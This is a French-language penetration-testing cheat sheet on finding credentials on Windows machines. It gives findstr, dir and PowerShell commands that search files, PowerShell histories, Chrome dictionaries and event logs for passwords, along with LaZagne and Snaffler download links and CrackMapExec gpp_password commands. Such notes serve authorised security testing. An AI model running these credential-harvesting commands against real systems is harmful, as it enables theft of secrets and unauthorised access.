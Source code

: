 ```yaml
---
public: true
---
```

## Dossiers intéressants

```shell
dir c:\
dir "%USERPROFILE%"
dir "%USERPROFILE%\Documents"
dir "%USERPROFILE%\Desktop"
```

## Fichiers Intéressants

### Recherche de fichiers

#### CMD

```shell
# FINDSTR
# /S : recherche dans les sous dossiers
# /P : ignore les fichiers ne contenant pas de caractères affichables
# /I : insenssible à la casse
# /N : affiche le numéro des lignes correspondant
# /M : affiche seulement le nom du fichier (pas la ligne correspondant au texte cherché)

# recherche du terme "password" : liste le nom des fichiers contenant "password" (sans afficher le contenu trouvé)
findstr /SIM "password" *.xml *.ini *.txt *.config

# recherche du terme "password" : liste le nom des fichiers et la ligne qui a matché
findstr /SPIN  "password" *.xml *.ini *.txt *.config

# Recherche de différents fichiers en même temps
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config* == *.rdp == *.vnc == *.cred
```

#### Powershell

```powershell
# Terme "Password" dans plusieures extensions
Get-ChildItem *.xml, *.ini, *.txt, *.config -Recurse | Select-String "pass"| ft Path, LineNumber, Line -AutoSize

# Fichiers avec des noms de la forme 
Get-ChildItem  -Recurse -Include *pass*.txt, *pass*.xml, *pass*.ini, *cred*, *vnc*, *.config, *.rdp, *.vnc, *.cred -ErrorAction Ignore | Select -ExpandProperty FullName
```

### Historiques Powershell

On peut vérifier l'emplacement de l'historique via : `(Get-PSReadLineOption).HistorySavePath`

Collecte des historiques (emplacement par défaut)

```powershell
Gci c:\Users -Directory | Select -ExpandProperty Name | %{ gc "C:\Users\$_\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

### Dictionnaire Google Chrome

```powershell
Gci c:\Users -Directory | Select -ExpandProperty Name | %{ gc "C:\Users\$_\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt" -ErrorAction SilentlyContinue | Select-String password }
```

### Autres

```powershell
# Passwords in scripts in different shares :  SYSVOL, IT shares

Passwords in web.config files on dev machines and IT shares

unattend.xml

Passwords in the AD user or computer description fields

KeePass databases --> pull hash, crack and get loads of access.

Found on user systems and shares

Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

```

## Configuration IIS

Fichier `C:\inetpub\wwwroot\web.config`

## Recherche de unattend.xml

Script a définir (voir emplacements)

## Barre de recherche Windows

Mots à tenter dans la barre de recherche du menu Démarrer

```
Passwords
Passphrases
Keys
Username
User account
Creds
Users
Passkeys
Passphrases
configuration
dbcredential
dbpassword
pwd
Login
Credentials
```

## Noms de fichiers intéressants

```batch
dir c:\*cred* /s /b 
dir c:\*secret* /s /b
```

```powershell
Get-ChildItem -Recurse -Path C:\ -Include *cred* -File
```

## Contenus de fichiers intéressants

```shell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

findstr /s /i cred c:\*.*
```

```powershell
Get-ChildItem -Recurse -Path C:\ | Select-String "cred" -List
```

```
REM 
dir n:\*cred* /s /b 
dir n:\*secret* /s /b

REM Recherche de mot intéressants dans des fichiers
findstr /s /i cred n:\*.*

n:\Contracts\private\secret.txt
```

## Observateur d'évènement

Si on est membre du groupe `Event Log Readers`, on pourra consulter l'observateur d'évènements.

Si les Event ID 4688 (Un nouveau processus a été créé) sont audités, on pourra potentiellement trouver lignes de commandes incluant des nom de compte utilisateur (voir des mots de passe).

```shell
###### nécessite d'être membre du gruope "Event Log Readers"
# Affiche toutes les lignes de commande auditées
wevtutil qe Security /rd:true /f:text | Select-String "line"
# Affiche les lignes contenant '/user'
wevtutil qe Security /rd:true /f:text | Select-String "/user"
# avec credentials alternatifs
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

Version Powershell (**Nécessite d'être Administrateur local**)

```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

## Snaffler

<https://github.com/SnaffCon/Snaffler/releases/download/1.0.132/Snaffler.exe>

## Lazagne

<https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe>

```
C:\Users\bob\Desktop> start lazagne.exe all
```

## Mots de passe dans les stratégies de groupe

```
# cme smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password

Local admin:
# cme smb 10.0.5.1 -u Administrator -p P@ss123 -d . -M gpp_password
# cme smb 10.0.5.1 -u Administrator -p P@ss123 --local-auth -M gpp_password

Domain user:
# cme smb 10.0.5.1 -u bkpadmin -p P@ss123 -d target.corp -M gpp_password
```
